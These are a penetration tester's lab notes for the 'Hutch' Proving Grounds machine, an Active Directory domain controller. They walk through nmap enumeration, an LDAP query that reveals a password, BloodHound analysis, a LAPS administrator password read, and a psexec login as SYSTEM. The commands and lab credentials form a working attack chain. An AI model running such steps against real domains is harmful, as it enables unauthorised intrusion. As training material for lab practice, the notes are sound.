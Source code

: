 ### Enumeration
```
IP=192.168.239.122
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p53,80,122,135,139,445,636,3268,49692,49668,49673 -A $IP
```
### Ports
- 53
	- Simple DNS Plus
- 80
	- Microsoft IIS httpd 10.0
- 122
	- filtered smakynet
- 135
	- RPC
- 139
	- RPC
- 445
	- microsoft-ds
- 636
	- tcpwrapped
- 3268
	- Microsoft Windows Active Directory LDAP (Domain: hutch.offsec0., Site: Default-First-Site-Name)
- 464
	- kpasswd5
- 3269
	- tcpwrapped
- 9389
	- .NET Message Framing
- 5985
	- Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
- 88
	- Microsoft Windows Kerberos
- 593
	- ncacn_http   Microsoft Windows RPC over HTTP 1.0
	- does not resolve in browser
- 389
	- Microsoft Windows Active Directory LDAP (Domain: hutch.offsec0., Site: Default-First-Site-Name)
- 49674
	- RPC
- 49673
	- Microsoft Windows RPC over HTTP 1.0
	- does not resolve in browser
- 49666
	- RPC
- 49676
	- RPC
- 49991
	- RPC
- 49692
	- RPC
- 49668
	- RPC
### Foothold
- 445
	- smbclient -N -L //$IP
		- anonymous login success. no shares
	- nmap --script smb-vuln* -p135,139,445 $IP
		- No vulns
- 80
	- ![[Pasted image 20240702085305.png]]
	- dirsearch -u http://$IP
		- `/aspnet_client`
	- /aspnet_client
		- 403 forbidden
- sudo responder -I tun0
	- nothing
- enum4linux -U $IP
	- Nothing
- `ldapsearch -H ldap://$IP -x -b "DC=hutch,DC=offsec" > ldapsearch.txt
	- grep -E 'sAMAccountName|description' ldapsearch.txt
	- ![[Pasted image 20240702090713.png]]
	- Double check file and find fmcsorley has password of CrabSharkJellyfish192
	- Validate creds
		- crackmapexec smb $IP -u fmcsorley -p CrabSharkJellyfish192
			- Successful
		- impacket-GetUserSPNs -dc-ip $IP hutch.offsec/fmcsorley
			- no entries found
		- Does not seem to be external kerberoast
		- `sudo bloodhound-python -u 'fmcsorley' -p 'CrabSharkJellyfish192' -ns $IP -d hutch.offsec -c all
		- bloodhound to open bloodhound
		- imported data
		- fmcsorley
			- outbound permissions
				- first degree object
					- read laps password over DC
						- read the password of local admin
						- `pyLAPS.py --action get -d "DOMAIN" -u "ControlledUser" -p "ItsPassword"`
						- `./pyLAPS.py --action get --dc-ip $IP -d 'hutch.offsec' -u "fmcsorley" -p "CrabSharkJellyfish192"`
							- `vr47R-%}09FBKv`
						- impacket-psexec administrator:'vr47R-%}09FBKv'@$IP
							- allowed login as nt auth system
### Lessons Learned
